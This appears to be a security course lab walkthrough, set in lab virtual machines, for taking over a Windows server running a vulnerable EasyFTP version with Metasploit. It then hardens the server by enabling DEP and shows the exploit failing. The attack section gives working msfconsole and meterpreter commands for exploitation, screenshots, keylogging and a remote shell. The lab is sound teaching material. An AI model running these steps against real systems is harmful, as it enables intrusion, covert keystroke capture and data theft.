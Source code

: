 # Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Tasks
On Windows server VM 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](../repo/easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```
   7. Add a user test on EasyFTP

Keep EasyFTP running on Windows VM 🪟.
On Kali Linux VM 🐧, in a command terminal

```bash
#  Make sure you can ftp to EasyFTP from Kali terminal
ftp Windows_VM_IP # as user test
```
2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET "Number_of_target_Windows_Universal - v1.7.0.11"
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
# 2.4.1 find the usage of meterpreter
meterpreter > help
# 2.4.2 get the system information of the victim
meterpreter > sysinfo
# 2.4.3 get an image of the target's desktop
meterpreter > screenshot
# 2.4.4 key logging
# Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
meterpreter > keyscan_start
# Shows the keystrokes captured so far
meterpreter > keyscan_dump	

# 2.4.5 Get a Windows Command Prompt on the target
meterpreter > shell
# Leaves the Windows Command Prompt
C:\Users\Administrator :$ exit
meterpreter > 

# 2.4.6 exit meterpreter
meterpreter > exit
msf >

# 2.4.7 exit metasploit
msf > exit
~ $
```

On Windows server VM 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working" or EasyFTP crashed, then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)